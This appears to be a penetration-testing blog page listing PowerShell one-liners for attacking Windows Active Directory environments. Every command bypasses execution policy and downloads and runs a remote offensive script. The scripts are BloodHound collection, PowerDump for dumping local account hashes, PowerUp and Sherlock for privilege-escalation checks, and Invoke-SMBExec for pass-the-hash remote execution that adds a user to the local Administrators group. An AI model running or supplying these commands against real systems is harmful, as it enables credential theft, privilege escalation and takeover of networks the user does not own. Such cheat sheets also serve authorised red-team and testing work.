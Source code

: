 ```yaml
---
title: Powershell One-Liners
author: asphixie
date: 2023-05-19 20:55:00 +0800
categories: [Active Directory]
pin: true
comments: false
---
```


# PowerShell One-Liners

## Bloodhound : Using ingestors to collect the data and then send it to BloodHound.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound"
```

## PowerDump : Dump all local accounts.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1');Invoke-PowerDump"
```

## PowerUp : Check for privilege escalation.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks"
```

## Sherlock : An old tool to find vulnerabilities on the host. Can be still interesting.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Find-AllVulns"
```

## Invoke-SMBExec : Remote command execution by using a hash :
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://github.com/Kevin-Robertson/Invoke-TheHash/raw/master/Invoke-SMBExec.ps1’);"
Invoke-SMBExec -hash HASH -Target HOSTNAME -Domain DOMAIN -Username USERNAME -Command “net localgroup Administrateurs USERNAME /ADD” -verbose
```
